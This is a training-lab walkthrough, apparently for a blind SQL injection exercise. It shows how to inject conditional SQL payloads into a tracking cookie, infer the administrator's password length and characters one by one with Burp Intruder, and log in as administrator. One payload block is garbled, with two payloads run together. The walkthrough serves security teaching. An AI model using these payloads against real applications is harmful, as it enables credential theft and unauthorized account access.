# Lab 9: Blind SQL injection with conditional responses

### 🧪 **Lab Description**

This lab contains a **blind SQL injection** vulnerability.

📍 The application uses a **tracking cookie** for analytics, and performs a **SQL query** containing the value of the submitted cookie.

⚠️ **Important Behavior:**

- ❌ The results of the SQL query are *not returned*.
- ❌ *No error messages* are displayed.
- ✅ However, the application shows a **`Welcome back`** message *if the query returns any rows*.

📚 The database contains a **`users`** table with the following columns:

- `username`
- `password`

---

### 🎯 **Objective**

You must exploit the **blind SQL injection** vulnerability to find out the password of the `administrator` user.

🔓 **To solve the lab**:

➡️ Log in as the `administrator` user using the extracted credentials.

### 💡 **Hint**

🧩 You can assume the password only contains:

- ✅ Lowercase letters: `a–z`
- ✅ Digits: `0–9`

---

### **Solution**

### 1️⃣ **Intercept the Cookie Request**

Visit the front page of the shop and use **Burp Suite** to intercept the request that contains the `TrackingId` cookie.

🧪 Example Cookie:

```sql
TrackingId=xyz
```



### 2️⃣ **Test a True Condition**

Modify the cookie value to:

```sql
TrackingId=xyz' AND '1'='1
```



✅ Confirm that the **"Welcome back"** message appears.

### 3️⃣ **Test a False Condition**

Change it to:

```sql
TrackingId=xyz' AND '1'='2
```



❌ Confirm that the **"Welcome back"** message does **not** appear.

### 4️⃣ **Check for Users Table**

Test with:

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a 
```

✅ Confirms the existence of a `users` table.

### 5️⃣ **Confirm Administrator User Exists**

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a 
```



Verify that the condition is true, confirming that there is a user called `administrator`.

### 6️⃣ **Find Password Length**

Start with:

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

This condition should be true, confirming that the password is greater than 1 character in length.



🔁 Repeat with increasing values until "Welcome back" disappears.

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='aTrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
```

Then send:

And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the `Welcome back` message disappears), you have determined the length of the password, which is in fact 20 characters long.

### 8️⃣ **Build the Character Extractor Payload**

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use **Burp Intruder**.

📤 **Step: Send Request to Intruder**

Send the request you are working on to **Burp Intruder** by using the **context menu** in Burp Suite (right-click the request and choose **"Send to Intruder"**).

🛠️ This will allow you to automate testing different values at specific positions in the password.






### 9️⃣ Configure the Cookie for Character Extraction

In **Burp Intruder**, change the value of the cookie to:

```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

> This uses the `SUBSTRING()` function to extract a **single character** from the password, testing it against a specific value. The attack will cycle through each position and possible character, testing one by one.
> 

### Set the Payload Position Marker

- Select only the **`a`** character in the cookie value.
- Click the **Add §** button in Intruder to place payload markers around it.

You should see the payload position like this:

```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```








### 🔟 Define the Payload List (Characters to Test)

- Go to the **Payloads** tab.
- Make sure **Simple list** is selected.
- Under **Payload configuration**, add all possible characters in the password:
    - `a` through `z`
    - `0` through `9`

You can easily add these using the **Add from list** dropdown.

### 1️⃣1️⃣ Configure Response Matching (Grep)

- Click the **Settings** tab in Intruder.
- In **Grep - Match**, clear any existing entries.
- Add the string:

```sql
Welcome back
```

This will allow Intruder to highlight requests where the condition is true.

### 1️⃣2️⃣ Launch the Attack and Analyze Results

- Click **Start attack**.
- Look for the row with a **tick** under the `Welcome back` column.
- The payload value in that row is the **correct character** at position 1 of the password.

### 1️⃣3️⃣ Repeat for Each Character Position

- Go back to the **Intruder** tab.
- Modify the payload position to test the next character by changing the index in the cookie value:

```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

- Update the payload position markers accordingly.
- Relaunch the attack, note the character for position 2.
- Repeat for positions 3, 4, ..., up to the password length.











### 1️⃣4️⃣ Complete Password Recovery

- Continue this process until the entire password is revealed.

---

### 1️⃣5️⃣ Log in Using the Discovered Password

- In the browser, click **My account**.
- Use the recovered password to log in as the `administrator` user.



> Note
For more advanced users, the solution described here could be made more elegant in various ways. For example, instead of iterating over every character, you could perform a binary search of the character space. Or you could create a single Intruder attack with two payload positions and the cluster bomb attack type, and work through all permutations of offsets and character values.
> 

### **Community solutions**

> [https://youtu.be/W3zvXK9i75A](https://youtu.be/W3zvXK9i75A)
>